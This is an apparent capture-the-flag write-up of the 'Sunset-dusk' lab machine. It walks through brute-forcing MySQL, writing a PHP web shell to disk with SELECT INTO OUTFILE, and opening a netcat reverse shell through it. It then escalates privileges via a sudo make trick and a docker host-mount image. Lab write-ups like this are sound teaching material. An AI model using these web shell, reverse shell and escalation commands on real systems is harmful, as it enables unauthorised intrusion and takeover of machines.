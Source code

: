 ```yaml
---
layout: post
title: Sunset-dusk writeup
date: 2019-12-10 10:11
author: mzfr
---
```


## Nmap

![](images/dusk/nmap.png)

We can see lot of ports are open.

***

## MySQL

I didn't find anything good on the website so I decided to check the mysql, again I didn't had any logins for that so I started a dictionary attack on MySQL service, firsts I used `admin` as username but that didn't gave anything then I used `root` and that game me the password.

![](images/dusk/crack.png)

There was nothing in any of the table of any database.

So I moved on to look at the other port like `8080`.

![](images/dusk/port-8080.png)

We can see that there is a directory listing for `/var/tmp`. I tried to download those images and do some steganography but I didn't find anything. After spending some time I realise that we can try to use `mysql` to put a file on that directory.

I ran

```sql
select "<?php system($_GET['cmd']); ?>" into outfile '/var/tmp/rce.php';
```

![](images/dusk/query.png)

And now we can see a `rce.php` file on that directory listing on port 8080.

![](images/dusk/rce-file.png)

Now that file is there we can run command. To check if it is working I read `/home`

![](images/dusk/rce.png)

Let's run the `reverse shell` code to get a reverse shell.

```bash
➜ http -b http://192.168.56.139:8080/rce.php\?cmd\="nc -e /bin/sh 192.168.56.1 4444"
```

![](images/dusk/rev.png)

And then I got the `user.txt`

![](images/dusk/user.png)

## Privilege escalation

Since I was on the system I decided to run my enumeration script. I noticed that `docker` was on the `dusk` group so we need to find a way to become `dusk` then we can use docker to escalate to root.

![](images/dusk/groups.png)

Since I didn't find anything for `dusk` on the enumeration so I checked the www-data's sudo right by running `sudo -l` and got some.

![](images/dusk/sudo-right.png)

Then I used [gtfo](https://github.com/mzfr/gtfo) to find those on [gtfobin](https://gtfobins.github.io/)

![](images/dusk/make-gtfo.png)

We know that we have the sudo right so we will use the last one

```bash
COMMAND='/bin/sh'
sudo -u dusk make -s --eval=$'x:\n\t-'"$COMMAND"
```

![](images/dusk/dusk.png)

Since now we are `dusk` we know we can easiy exploit the `docker` to become root. To exploit this we can use the famous [chrisfosterelli/rootplease](https://hub.docker.com/r/chrisfosterelli/rootplease/)

You can directly run it as

```bash
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```

That didn't worked for me directly so I cloned the repository and then I ran

```bash
$ docker build -t rootplease .
$ docker run
```

![](images/dusk/docker.png)

This gives use the rootshell and now we can read the root flag.

![](images/dusk/root.png)

***

This was a really simple but amazing machine. Thanks to [whitecr0wz](https://twitter.com/@whitecr0wz) for making this machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
